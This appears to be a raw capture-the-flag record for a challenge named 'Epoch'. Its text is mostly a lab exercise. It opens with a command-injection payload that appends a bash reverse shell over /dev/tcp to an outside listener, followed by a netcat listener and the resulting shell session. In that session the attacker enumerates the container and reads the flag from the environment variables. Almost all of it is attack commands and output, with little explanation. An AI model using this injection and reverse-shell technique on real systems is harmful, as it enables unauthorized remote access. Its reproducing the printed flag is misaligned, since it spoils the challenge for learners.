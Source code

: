 # Epoch

15022022&&bash -i >& /dev/tcp/10.14.110.0/4578 0>&1

┌──(kali㉿kali)-[~]
└─$ nc -lvp 4578                                                           
listening on [any] 4578 ...
10.10.69.50: inverse host lookup failed: Unknown host
connect to [10.14.110.0] from (UNKNOWN) [10.10.69.50] 35150
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
challenge@e7c1352e71ec:~$ ls
ls
go.mod
go.sum
main
main.go
views
challenge@e7c1352e71ec:~$ cd /root
cd /root
bash: cd: /root: Permission denied
challenge@e7c1352e71ec:~$ sudo cd /root
sudo cd /root
bash: sudo: command not found
challenge@e7c1352e71ec:~$ whoami
whoami
challenge
challenge@e7c1352e71ec:~$ ls -la
ls -la
total 13772
drwxr-xr-x 1 root root     4096 Mar  2  2022 .
drwxr-xr-x 1 root root     4096 Mar  2  2022 ..
-rw-r--r-- 1 root root      220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 root root     3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 root root      807 Feb 25  2020 .profile
-rw-rw-r-- 1 root root      236 Mar  2  2022 go.mod
-rw-rw-r-- 1 root root    52843 Mar  2  2022 go.sum
-rwxr-xr-x 1 root root 14014363 Mar  2  2022 main
-rw-rw-r-- 1 root root     1164 Mar  2  2022 main.go
drwxrwxr-x 1 root root     4096 Mar  2  2022 views
challenge@e7c1352e71ec:~$ cd ..
cd ..
challenge@e7c1352e71ec:/home$ ls
ls
challenge
challenge@e7c1352e71ec:/home$ cd ..
cd ..
challenge@e7c1352e71ec:/$ ls
ls
bin
boot
dev
etc
go1.15.7.linux-amd64.tar.gz
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
challenge@e7c1352e71ec:/$ cd dev
cd dev
challenge@e7c1352e71ec:/dev$ ls
ls
core
fd
full
mqueue
null
ptmx
pts
random
shm
stderr
stdin
stdout
tty
urandom
zero
challenge@e7c1352e71ec:/dev$ id
id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
challenge@e7c1352e71ec:/dev$ printenv
printenv
HOSTNAME=e7c1352e71ec
PWD=/dev
HOME=/home/challenge
LS_COLORS=
GOLANG_VERSION=1.15.7
FLAG=flag{7da6c7debd40bd611560c13d8149b647}
SHLVL=2
PATH=/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/printenv
OLDPWD=/
challenge@e7c1352e71ec:/dev$ 
